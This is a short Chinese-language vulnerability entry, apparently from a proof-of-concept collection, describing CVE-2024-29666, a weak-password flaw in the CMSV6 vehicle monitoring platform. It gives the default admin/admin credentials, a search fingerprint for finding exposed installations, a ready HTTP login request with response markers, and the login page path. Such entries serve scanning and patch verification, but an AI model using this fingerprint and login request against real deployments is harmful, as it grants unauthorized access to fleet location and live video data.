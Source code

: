 ﻿# CMSV6车辆监控平台系统中 弱密码漏洞

> 更新时间：2024-03-29

> 漏洞编号：CVE-2024-29666

> 漏洞说明：CMSV6平台是基于车辆位置信息服务和实时视频传输服务的创新技术和开放运营理念。为GPS运营商车辆硬件设备制造商、车队管理企业等车辆运营相关企业提供核心基础数据服务。该系统CMSV6 7.31.0.2、7.32.0.3版本中存在弱密码漏洞。用户名：admin 密码：admin

> 漏洞特征：body="/808gps/"

> 验证脚本：HTTP

```
GET /StandardApiAction_login.action?account=admin&password=admin HTTP/1.1
```

> 响应代码特征：200

> 响应内容特征：admin

> 上传文件定位：

> 验证文件来源：CMSV6车辆监控平台系统中 弱密码漏洞.poc

```
备注说明：手工使用admin/admin直接登录即可，登录页：http://x.x.x.x/808gps/login.html
```